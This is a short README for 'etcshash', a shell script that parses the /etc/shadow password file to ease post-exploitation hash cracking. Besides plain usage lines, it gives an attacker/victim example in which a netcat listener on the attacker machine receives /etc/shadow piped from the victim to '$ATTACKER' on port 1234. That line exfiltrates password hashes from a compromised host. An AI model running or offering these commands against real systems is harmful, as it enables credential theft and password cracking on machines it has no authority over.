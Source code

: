 # etcshash

> A shell script to parse the /etc/shadow file and automatically display the relevant information

This script aims to make post exploitation easier by parsing the `/etc/shadow` file and outputting the information in a concise way that makes steps like hash cracking easier

## Usage

Currently, the script only supports reading from stdin:
```sh
cat /etc/shadow | ./etcshash.sh
```
or output every field of the `/etc/shadow` file with the `-a` flag
```sh
cat /etc/shadow | ./etcshash.sh -a
```

as it reads from stdin it can also receive files sent e.g. from netcat:
```sh
# attacker machine:
nc -lvnp 1234 | ./etcshash.sh

# victim:
cat /etc/shadow | nc $ATTACKER 1234
```